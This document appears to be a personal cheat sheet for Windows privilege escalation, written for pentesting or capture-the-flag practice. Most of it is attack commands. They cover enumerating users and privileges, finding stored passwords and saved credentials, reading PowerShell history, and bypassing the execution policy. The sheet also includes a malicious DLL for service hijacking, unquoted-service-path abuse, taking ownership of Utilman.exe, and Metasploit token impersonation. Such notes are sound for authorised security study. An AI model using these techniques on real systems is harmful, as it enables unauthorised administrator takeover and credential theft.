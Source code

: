 # Privesc 
Useful Info Commands
--------------------

The following commands will help us enumerate users and their privileges on the target system.

Current user’s privileges: `whoami /priv`

List users: `net users`

List details of a user: `net user username` (e.g.`net user Administrator`)

Other users logged in simultaneously: `qwinsta` (the`query session` command can be used the same way) 

User groups defined on the system: `net localgroup`

List members of a specific group: `net localgroup groupname` (e.g.`net localgroup Administrators`

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`  
The `findstr` command can be used to find such files in a format similar to the one given below:

`findstr /si password *.txt`

`wmic qfe get Caption,Description,HotFixID,InstalledOn`

change persmissions with icacls: `icacls WService.exe /grant Everyone:F`

[https://github.com/gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin) for privilege escalation with windows privileges.

To change to a standard user while being admin, we can use token impersonation, just get a meterpreter shell and `load incognito`, `list_tokens -u` and the use `Impersonate_token "win/Admin"` to get a shell as that user.

```text-plain
takeown /f C:\Windows\System32\Utilman.exe
```

Unattended Windows Installations
--------------------------------

*   C:\\Unattend.xml
*   C:\\Windows\\Panther\\Unattend.xml
*   C:\\Windows\\Panther\\Unattend\\Unattend.xml
*   C:\\Windows\\system32\\sysprep.inf
*   C:\\Windows\\system32\\sysprep\\sysprep.xml

Powershell History
------------------

```text-plain
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

```text-plain
cmdkey /list
runas /savecred /user:admin cmd.exe
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "ProxyPassword" /s
```

WMIC
----

WMIC is a command-line tool on Windows that provides an interface for Windows Management Instrumentation (WMI). WMIC can provide more information than just installed patches. For example, it can be used to look for unquoted service path vulnerabilities we will see in later tasks. For newer Windows(21H1 and above) versions you will need to use the WMI PowerShell cmdlet.

Scheduled Tasks
---------------

The `schtasks`  command can be used to query scheduled tasks.

`schtasks /query /fo LIST /v`

The `driverquery`  command will list drivers installed on the target system.

The query below will search for a service named “windefend” and return its current state.

`sc query windefend`

While the second approach will allow you to detect antivirus software without prior knowledge about its service name, the output may be overwhelming.

`sc queryex type=service`

Enabling script execution
-------------------------

To run PowerUp on the target system, you may need to bypass the execution policy restrictions. To achieve this, you can launch PowerShell using the command below.

```text-plain
powershell.exe -nop -exec bypass
wmic product get name,version,vendor
wmic service list brief | findstr  "Running"
```

DLL Hijacking           
------------------------

```text-plain
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

compile with `x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`

If a service uses/requests a dll which is writeable/removable, we can replace that with our own malicious dll so when service is restarted with admin privilieges we can execute our command as System/Administrator

**Unquoted Service Path:**
--------------------------

when the service is launched, Windows follows a search order similar to what we have seen in the previous task. Imagine now we have a service (e.g. srvc) which has a binary path set to `C:\Program Files\topservice folder\subservice subfolder\srvc.exe`

[https://github.com/mattymcfatty/unquotedPoC](https://github.com/mattymcfatty/unquotedPoC) 

To search for unquoted service paths, we can use the following:

```text-plain
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

To the human eye, this path would be merely different than `C:\Program Files\topservice folder\subservice subfolder\srvc.exe`. We would understand the service is trying to run srvc.exe.

Windows approaches the matter slightly differently. It knows the service is looking for an executable file, and it will start looking for it. If the path is written between quotes, Windows will directly go to the correct location and launch service.exe. 

However, if the path is not written between quotes and if any folder name in the path has a space in its name, things may get complicated. Windows will append `.exe` and start looking for an executable, starting with the shortest possible path. In our example, this would be `C:\Program.exe`. If `program.exe` is not available, the second attempt will be to run `topservice.exe` under `C:\Program Files\`. If this also fails, another attempt will be made for `C:\Program Files\topservice folder\subservice.exe`. This process repeats until the executable is found. 

Knowing this, if we can place an executable in a location we know the service is looking for one, it may be run by the service. 

Token Impersonation:
--------------------

Service accounts, briefly mentioned in the introduction task, may have a higher privilege level than the low-level user you may have. In Windows versions before Server 2019 and 10 (version 1809), these service accounts are affected by an internal man-in-the-middle vulnerability. As you may know, man-in-the-middle (MitM) attacks are conducted by intercepting network traffic. In a similar fashion, higher privileged service accounts will be forced to authenticate to a local port we listen on. Once the service account attempts to authenticate, this request is modified to negotiate a security token for the "NT AUTHORITY\\SYSTEM" account. The security token obtained can be used by the user we have in a process called "impersonation". Although it has led to several exploits, the impersonation rights were not a vulnerability.   
  
In Windows versions after Server 2019 and Windows 10 (version 1809), impersonation rights were restricted. You can see below that a regular user does not have the "SeImpersonatePrivilege" privilege.

use sweet Potato 

Always Install Elevated:
------------------------

This method requires two registry values to be set. You can query these from the command line using the commands below. 

  
`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`  
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`  
  
Remember, to be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible.       

Token Impersonation:
--------------------

Enter: _load incognito_ to load the incognito module in metasploit.

To check which tokens are available, enter the _list\_tokens -g_.

Use the _impersonate\_token "BUILTIN\\Administrators"_ command to impersonate the Administrators token.

Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions (above questions answer). The safest process to pick is the services.exe process. First use the _ps_ command to view processes and find the PID of the services.exe process. Migrate to this process using the command _migrate PID-OF-PROCESS_